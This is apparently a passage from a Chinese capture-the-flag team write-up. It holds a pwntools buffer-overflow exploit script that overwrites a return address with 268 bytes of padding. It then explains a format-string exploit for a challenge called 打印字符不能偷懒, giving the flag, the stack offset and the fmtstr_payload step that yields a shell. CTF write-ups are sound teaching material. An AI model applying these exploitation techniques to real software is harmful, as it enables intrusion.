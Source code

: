 ```python

context(log_level='debug')

# define symbols and offsets here

offset = 268
vuln = 0x0804856B               # main


# define exploit function here
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
    raw_input()

    payload = flat(['A' * offset, vuln])
    io.recvuntil("?\n")
    io.sendline(payload)
    io.interactive()
    return


if __name__ == '__main__':
    pwn()

```

### 0x04 打印字符不能偷懒

Flag: flag{1f3a30fe-13a1-49d3-adac-8073a10188f7}

解题过程：

检测二进制保护，确认是32位程序，啥保护都没开

![image-20201121172101573](images/水电厂划水爱好者战队WriteUp/image-20201121172101573.png)

ida打开查看，存在明显的目标，就是要让key=35795746，就可以getshell

![image-20201121172401769](images/水电厂划水爱好者战队WriteUp/image-20201121172401769.png)

imagemagic函数存在明显的格式化字符串漏洞

![image-20201121172519801](images/水电厂划水爱好者战队WriteUp/image-20201121172519801.png)

调试漏洞点，AAAA第一次出现在第12个位置，得知字符串在栈上的偏移是12。

![image-20201121172653093](images/水电厂划水爱好者战队WriteUp/image-20201121172653093.png)

最后直接利用pwntools的fmtstr_payload工具将35795746写入到key的位置即可。

![image-20201121173145183](images/水电厂划水爱好者战队WriteUp/image-20201121173145183.png)
